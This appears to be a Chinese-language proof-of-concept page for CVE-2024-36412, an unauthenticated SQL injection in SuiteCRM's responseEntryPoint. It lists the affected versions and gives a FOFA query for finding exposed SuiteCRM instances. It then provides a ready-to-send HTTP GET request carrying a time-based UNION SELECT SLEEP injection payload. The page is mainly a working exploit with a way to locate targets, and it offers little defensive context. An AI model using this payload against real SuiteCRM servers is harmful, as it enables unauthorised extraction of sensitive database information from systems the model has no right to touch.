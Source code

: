 ## SuiteCRM系统接口responseEntryPoint存在SQL注入漏洞(CVE-2024-36412)

SuiteCRM存在SQL注入漏洞，未经身份验证的远程攻击者可以通过该漏洞拼接执行SQL注入语句，从而获取数据库敏感信息。

## 影响范围:

```
SuiteCRM < 7.14.4
SuiteCRM < 8.6.1
```

## fofa

```yaml
title="SuiteCRM"
```

## poc

```yaml
GET /index.php?entryPoint=responseEntryPoint&event=1&delegate=a<"+UNION+SELECT+SLEEP(5);--+-&type=c&response=accept HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![image-20240716202647446](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407162026514.png)